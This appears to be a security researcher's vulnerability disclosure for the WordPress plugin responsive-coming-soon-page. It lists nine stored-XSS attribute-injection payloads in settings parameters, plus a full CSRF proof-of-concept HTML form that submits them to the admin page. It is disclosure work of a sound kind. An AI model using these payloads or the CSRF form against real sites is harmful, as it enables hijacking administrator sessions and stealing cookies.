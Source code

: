 Well ,sir ,I just found some Stored-XSS bugs and a CSRF bug at wp-plugin responsive-coming-soon-page.

#### ADLab of Venustech

#### Stored-XSS

When the admin user click the "Save Options" button in the responsive-coming-soon-page setting page, we'll post some data to:

```
http://127.0.0.1/wordpress/wp-admin/admin.php?page=rcsm-weblizar
```

But when I pentest the  parameters in this plugin, I found when I write something into this point, it does not filter well.

##### Stored-XSS bugs

By the way, they're displayed by different weak data parameter, post by different data packets:

```
1.coming-soon_title=Our+Site+Is+Coming+Soon!!!" onfocus=console.log(/xss1/) autofocus test="123
2.coming-soon_sub_title=Stay+Tuned+For+Something+Amazing" onfocus=console.log(/xss2/) autofocus test="123
3.logo_width=250" onfocus=console.log(/xss3/) autofocus test="123
4.logo_height=150" onfocus=console.log(/xss4/) autofocus test="123
5.bg_color=%230098ff" onfocus=console.log(/xss7/) autofocus test="123
6.button_text_link=%23timer" onfocus=console.log(/xss8/) autofocus test="123
7.social_icon_1=fa+fa-facebook" onfocus=console.log(/xss10/) autofocus test="123
8.counter_title_icon=fa+fa-clock-o" onfocus=console.log(/xss9/) autofocus test="123
9.counter_title=We're+Coming+Soon11" onfocus=console.log(/xss6/) autofocus test="123
```

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/responsive-coming-soon-page/sxss1.png)
![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/responsive-coming-soon-page/sxss2.png)
![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/responsive-coming-soon-page/sxss3.png)
![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/responsive-coming-soon-page/sxss4.png)
![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/responsive-coming-soon-page/sxss5.png)
![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/responsive-coming-soon-page/sxss6.png)


#### CSRF

Well, the stored-xss bugs here need to combined with a csrf bug. Because no csrf protection here, we can cheat the admin user to visit the evil html on the evil site.

POC:

```
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://127.0.0.1/wordpress/wp-admin/admin.php?page=rcsm-weblizar" method="POST">
      <input type="hidden" name="social&#95;icon&#95;1" value="fa&#32;fa&#45;facebook&quot;&#32;onfocus&#61;console&#46;log&#40;&#47;xss10&#47;&#41;&#32;autofocus&#32;test&#61;&quot;123" />
      <input type="hidden" name="social&#95;link&#95;1" value="&#35;666&quot;" />
      <input type="hidden" name="link&#95;tab&#95;1" value="on&quot;&#32;onfocus&#61;console&#46;log&#40;&#47;xss10&#47;&#41;&#32;autofocus&#32;test&#61;&quot;123" />
      <input type="hidden" name="social&#95;icon&#95;2" value="fa&#32;fa&#45;twitter666&quot;" />
      <input type="hidden" name="social&#95;link&#95;2" value="&#35;666&quot;" />
      <input type="hidden" name="link&#95;tab&#95;2" value="on" />
      <input type="hidden" name="social&#95;icon&#95;3" value="fa&#32;fa&#45;google&#45;plus666&quot;" />
      <input type="hidden" name="social&#95;link&#95;3" value="&#35;" />
      <input type="hidden" name="social&#95;icon&#95;4" value="fa&#32;fa&#45;linkedin" />
      <input type="hidden" name="social&#95;link&#95;4" value="&#35;" />
      <input type="hidden" name="social&#95;icon&#95;5" value="fa&#32;fa&#45;pinterest" />
      <input type="hidden" name="social&#95;link&#95;5" value="&amp;66&quot;3" />
      <input type="hidden" name="weblizar&#95;rcsm&#95;settings&#95;save&#95;social&#95;option" value="1" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>

```

In a word, if the manager could be cheated to visit my evil html on my site, I can get the manager's cookie easily, or do something more evilly.


Well,  by the way, I just test the bug in the wordpress 4.9.1 and the latest version of the wp-plugin responsive-coming-soon-page.
